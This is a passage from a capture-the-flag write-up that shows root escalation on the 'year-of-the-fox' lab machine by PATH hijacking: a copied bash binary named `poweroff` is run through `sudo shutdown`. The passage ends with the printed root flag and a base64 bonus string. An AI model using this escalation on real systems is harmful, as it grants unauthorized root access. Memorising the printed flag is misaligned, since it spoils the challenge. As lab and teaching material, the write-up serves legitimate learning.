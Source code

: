 The code has been written by the author and it relies on the `poweroff` function. This function is called without an absolute path, which creates a vulnerability that we will be able to exploit.

We can copy the bash binary to `/tmp` and name it `shutdown` and change the path to `/tmp` and when we run `shutdown`, the `bash` binary that we copied, will be executed instead and when it is run with sudo as root, we'll get a root shell. The steps are as follows:

~~~
fox@year-of-the-fox:~$ cd /tmp
fox@year-of-the-fox:/tmp$ cp /bin/bash /tmp/poweroff
fox@year-of-the-fox:/tmp$ chmod +x poweroff 
fox@year-of-the-fox:/tmp$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/tmp$ sudo /usr/sbin/shutdown 
root@year-of-the-fox:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

The root flag is not in `/root` as you expect it to be:

~~~
root@year-of-the-fox:/tmp# cd /root
root@year-of-the-fox:/root# ls
root.txt
root@year-of-the-fox:/root# cat root.txt 
Not here -- go find!
~~~

I used `find` command to find the files with `root` in their name and found the flag in `rascal`'s home directory:

~~~
root@year-of-the-fox:/root# find / -type f -name "*root*"
[REDACTED]
/home/rascal/.did-you-think-I-was-useless.root
root@year-of-the-fox:/root# cat /home/rascal/.did-you-think-I-was-useless.root
T
H
M
{ODM3NTdk
MDljYmM4Z
jdhZWFhY2
VjY2Fk}

Here's the prize:

YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMw
Mwo=

Good luck!
~~~

I decoded the base64 encoded string and it returned a hash, but I don't know what it's about. But we have the root flag.

Root flag: `THM{ODM3NTdkMDljYmM4ZjdhZWFhY2VjY2Fk}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )